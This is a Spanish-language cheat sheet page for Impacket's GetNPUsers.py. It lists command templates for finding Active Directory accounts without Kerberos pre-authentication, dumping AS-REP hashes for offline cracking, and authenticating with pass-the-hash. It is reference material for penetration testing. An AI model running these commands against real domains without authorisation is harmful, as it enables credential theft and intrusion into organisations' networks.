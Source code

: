 # GetNPUsers.py

> Enumera las cuentas de Active Directory con la autenticación previa de Kerberos desactivada, que pueden ser susceptibles a ataques AS-REP roasting.
> Parte del paquete Impacket.
> Más información: <https://github.com/fortra/impacket>.

- Enumera los usuarios con la autenticación previa de Kerberos desactivada (enumeración anónima por defecto):

`GetNPUsers.py {{dominio}}/ -usersfile {{ruta/a/la/lista_de_usuarios}} -dc-ip {{ip_del_controlador_de_dominio}} -no-pass`

- Realiza roasting AS-REP y vuelca hash descifrables para descifrados sin conexión:

`GetNPUsers.py {{dominio}}/ -usersfile {{ruta/a/la/lista_de_usuarios}} -dc-ip {{ip_del_controlador_de_dominio}} -no-pass -request`

- Autentica con credenciales válidas (si el enlace anónimo está desactivado):

`GetNPUsers.py {{dominio}}/{{nombre_de_usuario}}:{{contraseña}} -usersfile {{ruta/a/la/lista_de_usuarios}} -dc-ip {{ip_del_controlador_de_dominio}}`

- Utiliza la autenticación pass-the-hash en lugar de una contraseña:

`GetNPUsers.py {{dominio}}/{{nombre_de_usuario}} -hashes {{LM_Hash}}:{{NT_Hash}} -usersfile {{ruta/a/la/lista_de_usuarios}} -dc-ip {{ip_del_controlador_de_dominio}}`

- Guarda la salida en un archivo para su posterior análisis:

`GetNPUsers.py {{dominio}}/ -usersfile {{ruta/a/lista_de_usuarios}} -dc-ip {{ip_del_controlador_de_dominio}} -request > {{ruta/a/salida.txt}}`
